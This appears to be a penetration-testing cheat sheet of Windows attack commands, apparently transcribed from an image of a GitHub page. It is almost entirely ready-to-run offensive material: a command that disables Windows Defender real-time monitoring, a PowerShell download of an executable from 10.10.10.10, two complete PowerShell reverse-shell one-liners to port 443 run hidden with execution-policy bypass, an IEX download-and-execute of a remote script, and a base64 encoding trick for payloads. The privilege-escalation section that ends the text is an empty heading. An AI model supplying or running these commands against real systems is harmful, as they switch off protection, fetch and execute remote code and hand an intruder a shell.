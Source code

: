 - Disable Defender
    - Set-MpPreference -DisableRealtimeMonitoring $true
  
# Windows file transfers
- Powershell
    -   powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/wget.exe','C:\Windows\Temp\wget.exe')" 
    -    
# Windows shells
- Powershell 
    - `powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
    - `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
    - `powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/reverse.ps1')`
    - [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
    - Encode a powershell in linux `Cat shell.ps1 | iconv -t utf-16le | base64 -w 0`


# Windows privilege escalation
